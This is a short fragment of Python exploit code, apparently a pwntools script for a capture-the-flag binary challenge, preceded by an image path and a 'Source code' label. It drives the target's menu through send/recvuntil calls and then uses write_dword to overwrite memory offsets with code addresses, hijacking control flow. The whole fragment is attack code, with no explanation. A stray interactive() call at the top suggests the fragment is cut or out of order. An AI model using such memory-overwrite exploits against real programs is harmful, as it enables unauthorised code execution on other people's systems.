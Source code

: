 ```python
	sh.interactive()

sh.recvuntil("How many numbers you have:\n")
sh.send("1\n")
sh.recvuntil("Give me your numbers\n")
sh.send("1\n")
sh.recvuntil("5. exit\n")

write_dword(0x84, 0x8048450)
write_dword(0x8C, 0x8048980 + 7)
exit()
```

